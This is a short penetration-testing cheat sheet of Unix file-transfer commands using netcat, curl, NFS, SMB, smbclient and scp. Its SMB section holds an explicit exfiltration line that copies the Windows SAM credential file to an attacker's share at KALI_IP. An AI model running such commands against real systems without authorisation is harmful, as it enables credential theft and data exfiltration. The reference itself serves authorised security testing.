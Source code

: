# Unix File Transfers

## Netcat

##### start listener on target
```sh
nc -nlvp [PORT] > [RECIVING.FILE]
```
##### send the file
```
nc [IP] [PORT] < [SENDING.FILE]
```

## Curl

```sh
curl -F "upload=@[FILE]" https://[IP]/[FILE]
```

```
curl -o [FILE] https://[IP]/[FILE]
```


## NFS Shares

```sh
sudo mkdir -p /mnt/share1
mount -t nfs -o vers=3 [IP]:/[FOLDER]/ /mnt/[SHARE]
```
```sh
sudo mkdir -p /mnt/share1
mount -t nfs -o vers=2 [REMOTE_IP]:/home/ /mnt/[SHARE]
```
##### Unmount
```sh
sudo umount /mnt/[SHARE]
```
##### Mount at Boot
```sh
[IP]:/[SHARE]/[FOLDER]  /mnt/[SHARE]  nfs  defaults,vers=3  0  0
```


## SMB Shares

##### Mount SMB Share
```sh
sudo mount -t cifs -o vers=1.0 //[REMOTE_IP]/'[SHARE]' /mnt/[SHARE]
```
##### Host SMB Share
```sh
sudo impacket-smbserver [SHARE] .
# to use for exfil: copy C:\Windows\Repair\SAM \\KALI_IP\share\sam.save
```
##### Upload from Target
```
copy C:\Path\To\[FILE] \\[IP]\[SHARE]\[FILE]
```
##### Upload with curl to Target
```sh
curl --upload-file /Path/To/[FILE] -u 'DOMAIN\[USER]' smb://[IP]/[SHARE]/
```
##### Use smbclient to Get ALL files from an SMB share
```sh
smbclient //[IP]/[SHARE]
RECURSE ON
PROMPT OFF
mget *
```

### SCP
##### Copy TO Remote Machine
```sh
scp /[LOCAL_PATH]/[FILE] [USER]@[IP]:/[REMOTE_PATH]/[FILE]
```

##### Copy FROM Remote Machine
```sh
scp [USER]@[IP]:/[REMOTE_PATH]/[FILE] /[LOCAL_PATH]/[FILE]
```